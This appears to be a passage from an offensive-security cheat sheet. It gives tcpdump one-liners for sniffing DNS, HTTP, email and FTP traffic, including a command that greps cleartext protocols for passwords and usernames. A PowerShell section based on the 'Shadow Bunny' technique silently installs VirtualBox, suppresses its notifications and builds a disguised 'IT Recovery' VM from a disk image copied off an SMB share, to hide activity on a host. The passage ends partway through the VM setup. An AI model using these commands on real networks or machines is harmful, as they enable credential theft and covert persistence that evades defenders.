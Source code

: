 


##  Show DNS traffic
tcpdump -i <interface> -nn -l udp port 53

 
##  Show HTTP User-Agent & Hosts
tcpdump -i <interface> -nn -l -A -s1500 | egrep -i 'User-Agent:|Host:'


##   Show HTTP Requests & Hosts
tcpdump -i <interface> -nn -l -s 0 -v | egrep -i "POST /|GET /|Host:"


##  Show email recipients
tcpdump -i <interface> -nn -l port 25 | egrep -i 'MAIL FROM\|RCPT TO'


##  Show FTP data
tcpdump -i <interface> -nn -v port ftp or ftp-data


##  Show all passwords different protocols
tcpdump -i wlan0 port http or port ftp or port smtp or port imap or port pop3 or port telnet -l -A | egrep -i -B5 'pass=|pwd=|log=|login=|user=|username=|pw=|passw=|passwd=|password=|pass:|user:|username:|password:|login:|pass |user '




### Virtual Machines

> Based on the Shadow Bunny technique.

```ps1
# download virtualbox
Invoke-WebRequest "https://download.virtualbox.org/virtualbox/6.1.8/VirtualBox-6.1.8-137981-Win.exe" -OutFile $env:TEMP\VirtualBox-6.1.8-137981-Win.exe

# perform a silent install and avoid creating desktop and quick launch icons
VirtualBox-6.0.14-133895-Win.exe --silent --ignore-reboot --msiparams VBOX_INSTALLDESKTOPSHORTCUT=0,VBOX_INSTALLQUICKLAUNCHSHORTCUT=0

# in \Program Files\Oracle\VirtualBox\VBoxManage.exe
# Disabling notifications
.\VBoxManage.exe setextradata global GUI/SuppressMessages "all" 

# Download the Virtual machine disk
Copy-Item \\smbserver\images\shadowbunny.vhd $env:USERPROFILE\VirtualBox\IT Recovery\shadowbunny.vhd

# Create a new VM
$vmname = "IT Recovery"
.\VBoxManage.exe createvm --name $vmname --ostype "Ubuntu" --register

# Add a network card in NAT mode
.\VBoxManage.exe modifyvm $vmname --ioapic on  # required for 64bit
.\VBoxManage.exe modifyvm $vmname --memory 1024 --vram 128
.\VBoxManage.exe modifyvm $vmname --nic1 nat
.\VBoxManage.exe modifyvm $vmname --audio none
.\VBoxManage.exe modifyvm $vmname --graphicscontroller vmsvga
.\VBoxManage.exe modifyvm $vmname --description "Shadowbunny"

# Mount the VHD file
```